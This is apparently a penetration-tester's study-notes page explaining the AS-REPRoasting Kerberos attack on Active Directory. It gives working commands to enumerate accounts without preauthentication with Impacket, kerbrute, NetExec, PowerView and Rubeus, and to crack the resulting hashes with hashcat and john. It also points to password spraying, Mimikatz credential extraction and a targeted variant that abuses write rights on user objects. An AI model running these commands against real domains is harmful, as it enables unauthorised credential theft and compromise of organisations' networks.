 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AS-REPRoasting

## Concept

**AS-REPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**.&#x20;

**Preauthentication** is a security feature in Kerberos where the client must prove knowledge of their password before the KDC issues a TGT. This is done by encrypting a timestamp with a key derived from the user’s password and sending it to the KDC. If the KDC can decrypt and validate the timestamp, it confirms the user knows their password — protecting against offline brute-force attacks.

If an account has the [`Do not require Kerberos pre-authentication`](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **AS-REP**. The AS-REP contains the **TGT** which is encypted with the account's password hash which can be potentially cracked.

<figure><img src="../../../.gitbook/assets/asreproasting_process (2).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Attack <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="Linux" %}
We can enumerate accounts with the preauthentication feature disabled using `GetNPUsers` or `kerbrute`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
impacket-GetNPUsers corp.com/robert -dc-ip <dc-ip>

# Kerbrute
kerbrute userenum -d corp.com --dc <dc-ip> /opt/jsmith.txt
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using `GetNPUsers` or `nxc`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script with a list of users
impacket-GetNPUsers corp.com/ -dc-ip 172.16.5.5 -no-pass -usersfile users.txt

# For a target user
$ impacket-GetNPUsers relia.com/michelle -dc-ip 172.16.163.6 -no-pass

# NetExec
nxc ldap 10.10.10.161 -u users.txt -p '' --asreproast asreproast.lst
```
{% endcode %}

Finally, we can crack the extracted hashes with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou

# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can enumerate accounts with the preauthentication feature disabled using [PowerView](../tools/powerview.md).

{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using [`rubeus`](../tools/rubeus.md).

```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```

Finally, we can crack the extracted hashes on our attacking machine with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou

# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}
{% endtabs %}

If we successfully crack the hash, we can perform a [password spraying](../tools/netexec.md#password-spray) attack across the network using NetExec. If the compromised user has local administrator privileges on any host, we can then extract cached credentials—such as those stored in [LSASS](../tools/mimikatz.md#pass-the-hash)—using tools like Mimikatz.

> _For an example of AS-REPRoasting with `nxc` check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#asreproasting)_._

## Targeted AS-REPRoast

If we can't find any vulnerable users, but we have `GenericWrite` or `GenericAll` on a user object, we can modify that user's `UserAccountControl` to disable preauthentication and then perform the ASREP roast attack. Don't forget to reset the `UserAccountControl` after extraction!

## Resources

* Some amazing demonstrations of AS-REPRoasting ([video](https://www.youtube.com/watch?v=EVdwnBFtUtQ), [video](https://www.youtube.com/watch?v=wA9w8t1fRWo))
* What `impacket-GetNPUsers` does behind the scenes ([video](https://www.youtube.com/watch?v=pZSyGRjHNO4))
